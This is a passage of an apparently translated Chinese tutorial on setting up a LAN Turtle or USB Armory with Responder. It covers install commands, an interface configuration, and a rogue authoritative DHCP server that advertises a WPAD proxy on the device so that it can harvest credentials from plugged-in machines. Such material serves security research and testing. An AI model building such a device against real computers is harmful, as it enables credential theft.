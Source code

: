 ·Turtle video guides and wiki: [https://lanturtle.com/wiki/#!videos.md](https://lanturtle.com/wiki/#!videos.md)

**<br>**

**2.工具**

基本上，运用Laurent Gaffié的响应器可以完成捕获，所以你需要找到一个方法来将应答器映射到设备上，而Hak5 Turtle已经有这样的一个模块了:

[![](https://p1.ssl.qhimg.com/t01d09564424c04d468.png)](https://p1.ssl.qhimg.com/t01d09564424c04d468.png)

首次使用时，你必须将模块设置为“Enable”，随后它会自行下载所有相关项和软件包。

然后你还需要一个opkg update和opkg install python-openssl，这样应答器就可以正确运行了。

至于USB Armory，你可以使用SCP、网络连接共享、USB主机/客户端适配器:

[![](https://p1.ssl.qhimg.com/t01e06fdebf36e8ada1.jpg)](https://p1.ssl.qhimg.com/t01e06fdebf36e8ada1.jpg)

在Debian/Jessie的默认安装中没有安装Python，所以你必须解决所有的相关项(在Kali版本中不需要这个),并且需要互联网接入来执行以下内容:

```
apt-get install -y python git python-pip python-dev screen sqlite3
pip install pycrypto
git clone https://github.com/spiderlabs/responder
```

**<br>**

**3.配置**

Armory

首先,设置接口不是必需的，但是因为Armory的每个图像都有着不同的默认IP地址，设置它能够提高一致性, 因此它可以为下一步打下坚实的基础。

```
/etc/network/interfaces
　# interfaces(5) file used by ifup(8) and ifdown(8)
# Include files from /etc/network/interfaces.d:
source-directory /etc/network/interfaces.d
auto usb0
allow-hotplug usb0
iface usb0 inet static
  address 192.168.2.201
  netmask 255.255.255.0
  gateway 192.168.2.1
```

下面,我们来建立DHCP服务器:

```
/etc/dhcp/dhcpd.conf
ddns-update-style none;
option domain-name "domain.local";
option domain-name-servers 192.168.2.201;
default-lease-time 60;
max-lease-time 72;
# If this DHCP server is the official DHCP server for the local
# network, the authoritative directive should be uncommented.
authoritative;
# Use this to send dhcp log messages to a different log file (you also
# have to hack syslog.conf to complete the redirection).
log-facility local7;
# wpad
option local-proxy-config code 252 = text;
# A slightly different configuration for an internal subnet.
subnet 192.168.2.0 netmask 255.255.255.0 `{`
  range 192.168.2.1 192.168.2.2;
  option routers 192.168.2.201;
  option local-proxy-config "http://192.168.2.201/wpad.dat";
```